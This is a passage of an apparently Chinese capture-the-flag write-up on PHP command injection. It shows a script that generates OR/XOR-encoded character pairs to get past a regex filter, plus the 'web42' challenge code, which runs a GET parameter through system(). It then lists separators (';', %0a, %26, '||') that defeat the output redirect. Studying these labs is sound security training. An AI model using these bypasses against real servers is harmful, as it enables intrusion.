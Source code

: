 ```php
                    $hex_j = '0'.dechex($j);
                }else{
                    $hex_j = dechex($j);
                }
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
                }else{
                    $par1 = "%".$hex_i;
                    $par2 = '%'.$hex_j;
                    $res = '';
                    if ($mode==1){
                        $res = orRce($par1, $par2);
                    }else if ($mode==2){
                        $res = xorRce($par1, $par2);
                    }

                    if (ord($res)>=32&ord($res)<=126){
                        $contents=$contents.$res." ".$par1." ".$par2."\n";
                    }
                }
            }

        }
        fwrite($myfile,$contents);
        fclose($myfile);
    }else{
        negateRce();
    }

}

generate(2,'/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i');
```

web42
```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
```
/dev/null 2>&1，让所有的输出流（包括错误的和正确的）都定向到空设备丢弃
```
##### 分析思路:

```
重定向符号
0表示键盘输入 1表示屏幕输出 2表示错误输出
> 默认为标准输出重定向，与 1> 相同
2>&1 意思是把 标准错误输出 重定向到 标准输出.(如果>file 后输出,因为已经被重定向到file，所以标准错误也输出到file)
&>file 意思是把 标准输出 和 标准错误输出 都重定向到文件file中
```
所以不能让后面执行，所以需要把后面截断,截断后后面的语句不执行才行
``;,%0a,%26以及||`都可以
